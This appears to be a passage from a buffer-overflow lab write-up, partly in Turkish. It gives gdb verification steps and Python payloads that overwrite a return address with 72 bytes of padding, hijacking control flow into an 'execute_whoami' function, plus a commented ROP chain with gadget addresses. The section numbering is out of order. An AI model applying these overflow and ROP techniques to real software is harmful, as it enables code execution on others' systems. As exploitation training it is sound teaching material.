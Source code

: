 ```bash
```

#### 3.5. Vulnerability Verification
```bash
# Exploit test:
(gdb) break execute_whoami
(gdb) run
# Payload: 72 bytes 'A' + \x20\x12\x40\x00\x00\x00\x00\x00
(gdb) x/32gx $rsp
(gdb) stepi
(gdb) continue

# Expected result:
# - execute_whoami function is called
# - "=== WHOAMI KOMUTU CIKTISI ===" is printed
# - whoami command runs and shows username
# - "=============================" is printed
# - "Komut basariyla calistirildi!" is printed
# - Program terminates with exit(0)
```

### 4. Creating ROP Chain

#### For Linux x86_64:
```python
# Buffer overflow (64 bytes) + Return address overwrite (8 bytes)
payload = b"A" * 72

# Simple ROP chain - just call execute_whoami function
payload += p64(0x401220)        # execute_whoami function

# Alternative: Real ROP chain (advanced)
# payload += p64(0x401383)        # pop rdi; ret
# payload += p64(0x0)             # rdi value
# payload += p64(0x40138c)        # pop rsi; ret  
# payload += p64(0x0)             # rsi value
# payload += p64(0x401395)        # pop rdx; ret
# payload += p64(0x0)             # rdx value
# payload += p64(0x40139e)        # syscall
# payload += p64(0x401220)        # execute_whoami function
```

#### For macOS ARM64:
```python
# Buffer overflow (64 bytes) + Return address overwrite (8 bytes)
payload = b"A" * 72

# Simple ROP chain (ARM64 different)
payload += p64(whoami_addr)     # execute_whoami function
```

### 3. Running Exploit
